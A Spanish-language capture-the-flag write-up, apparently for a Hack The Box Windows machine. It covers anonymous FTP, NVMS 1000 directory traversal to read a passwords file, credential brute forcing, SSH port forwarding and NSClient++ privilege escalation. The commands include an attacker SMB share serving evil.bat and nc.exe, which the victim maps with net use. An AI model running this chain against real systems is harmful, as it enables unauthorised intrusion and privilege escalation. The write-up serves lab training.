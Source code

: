 ------------------------
#windows  #htb #lfi  #NseClient

-------------


- Empezamos como siempre haciendo un escaneo de nmap sobre los puertos viendo las versiones y lanzando scripts y nos encontramos lo siguiente.
![[Pasted image 20240322122652.png]]

- Vemos que tiene el puerto 21 con el ususario anonymous habilitado por lo que entramos y nos encontramos un directorio Users con varios archivos que nos vamos a poder descargar y traernos a nuestra maquina a ver que informacion podriamos obtener. Y nos encontramos con un arcvhivo dentro de cada usuario que nos da alguna pista pero realmente nada importante.
![[Pasted image 20240322123115.png]]

- Vamos a hechar un ojo a la pagina web y nos encontramos que estamos ante un #NVMS 1000 que es un sistema de monitorizacion. Vemos que no encontramos credenciales default pero sin embargo si buscamos exploits para este sistema nos encontramos un posible directory traversal.

![[Pasted image 20240322124459.png]]

- Podemos ver que funciona perfectamente y que nos deja listar el archivo passwrods.txt que habiamos visto que existia en las notas que nos habian dejado en el ftp y ahora hemos conseguido llegar hasta el.
![[Pasted image 20240322125325.png]]

- Asi que ahora teniendo credenciales vamos a probar un ataque de fuerza bruta con crackmapecxec para probar si alguno de estos usuarios fuese valido y asi llegar a entrar dentro y en efecto encontramos un usuario y una contraseña validos.
![[Pasted image 20240322125807.png]]


- Conseguimos acceso utilizando esas credenciales via ssh ya que no nos funcionan para ningun otro servicio.

- Dentro del sistema vimos que no podemos escalar nuestro privilegios de ninguna forma ya que no encontramos vias potenciales, entonces me fui a ver el escaneo de nmap en el cual encontramos un puerto abierto el cual esta corriendo una web por lo que nos fuimos a ver que era ese puerto y nos encontramos con un servicio NSClient++, el cual si buscamos vulnerabilidades aociadas encontramos una clara para poder escalar privilegios por lo que ya vimos que la maquina tenia pinta de tirar por ahi.

- Encontramos la contraseña del administrador siguiendo las instrucciones del exploit, pero a la hora de usarlas en el panel de autenticacion de la maquina victima no nos funciona ya que no nos permite conectarnos con una ip que no sea la de la maquina victima. Por lo que decicimos realizar un localportForwarding con ssh ya que estamos autenticados y nos en neceario que utilices chisel.
`sshpass -p <Password> ssh nadine@Ip -L 8443:127.0.0.1:8443`

- Una vez pudimos acceder desde el panel de login seguimos con las instrucciones del exploit, por lo que nos creamos un archivo evil.bat y lo compartimos junto al nc.exe creando con smbserver un recurso compartido pero que ademas nos crease un usurario y una contraseña para que nos permitiese loggearnos. `impackert-smbServer.py smbFolder $(pwd) -smb2support -uusername ruben -password ruben123`.  

- Y del lado de la maquina victima lo descargamos de la siguiente manera `net use x: \\ip\smbFolder /user:ruben ruben123` 

- Despues ya lo unico que debemos  de hacer es continuar siguiendo los pasos del exploit y conseguiremos ser Administrator en la maquina